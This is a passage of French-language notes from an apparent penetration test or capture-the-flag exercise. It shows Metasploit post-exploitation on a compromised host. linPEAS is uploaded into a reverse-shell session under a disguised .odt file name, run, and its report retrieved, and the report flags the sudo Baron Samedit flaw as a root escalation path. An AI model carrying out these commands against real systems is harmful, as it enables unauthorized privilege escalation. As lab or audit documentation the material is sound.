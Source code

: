 et un gros rien, pas d'affichage ??!

alternative:
```sh
run post/multi/recon/local_exploit_suggester
[*] 51.68.36.97 - Collecting local exploits for php/linux...
[-] 51.68.36.97 - No suggestions available.
```

merci beaucoup, il me cherche des failles php alors que je vais les failles du système arf.

### linpeas dans le reverse shell

Je bascule sur une exécution plus traditionnel de linPEAS.

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

download avec `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`

dans msfconsole
```sh
# récupérer la session
sessions # voir l'id de la session
sessions -i 3
upload linpeas.sh /tmp/cvrda.odt
shell -t
cd /tmp
chmod +x cvrda.odt
./cvrda.odt | tee cvrda.out
#récupérer le rapport après être sorti du shell
exit
download /tmp/cvrda.out
```

visualisez le rapport dans un autre terminal avec `less -R cvrda.out`

Notable:

```sh
[CVE-2021-3156] sudo Baron Samedit                                                                                                                  
                                                                            
   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt                                                  
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

You own the SUID file: /tmp/privesc.sh # privesc par une autre équipe ?
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)

```

ca c'est du lourd : on "devrait" pouvoir passer root avec ca.

## baronsamedit
